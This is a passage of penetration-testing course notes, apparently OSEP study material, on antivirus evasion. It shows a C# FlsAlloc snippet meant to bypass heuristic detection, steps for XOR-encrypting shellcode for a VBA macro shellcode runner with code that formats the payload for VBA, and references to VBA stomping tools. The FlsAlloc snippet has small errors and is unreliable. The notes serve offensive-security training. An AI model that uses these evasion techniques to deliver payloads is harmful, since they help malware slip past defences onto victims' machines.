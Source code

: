 ### FlsAlloc

Use the Win32 FlsAlloc API to create a heuristics detection bypass. [FlsAlloc function - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/fibersapi/nf-fibersapi-flsalloc)

```cs
[System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
public static extern IntPtr FlsAlloc([In] IntPtr lpCallback); // Assuming a callback function is needed

// ... your code using FlsAlloc
IntPtr allocRes = FlsAlloc(0)
if (allocRes == null) { return; }
```

# 6.5 Antivirus Evasion in MS Office - VBA macros
## 6.5.1 Basic bypass Antivirus in VBA

Using the code from [3.4.2 VBA Shellcode Runner](https://github.com/col-1002/OSEP-Course/blob/main/Modules/Module%203.%20Client%20Side%20Code%20Execution%20With%20Office.md#final-code-snippets---mymacro). But this time, shellcode will be encrypt using XOR with key.

Use the code snippet from this section: 6.3 Bypassing Antivirus with C#

But this time, when XOR decrypting, take **Decimal** values instead of **Hexadecimal**

```cs
uint counter = 0;

StringBuilder hex = new StringBuilder(encoded.Length * 2);
foreach (byte b in encoded)
{
    hex.AppendFormat("{0:D3}, ", b);
    counter++;
    if (counter % 25 == 0)
    {
        hex.Append("_\n");
    }
}
Console.WriteLine($"XORed VBA payload (key: 0xfa):");
Console.WriteLine(hex.ToString());
```

## 6.5.2 VBA Stomp

References & Credit :
- https://www.youtube.com/watch?v=9ULzZA70Dzg
- https://github.com/outflanknl/EvilClippy
- https://vbastomp.com/
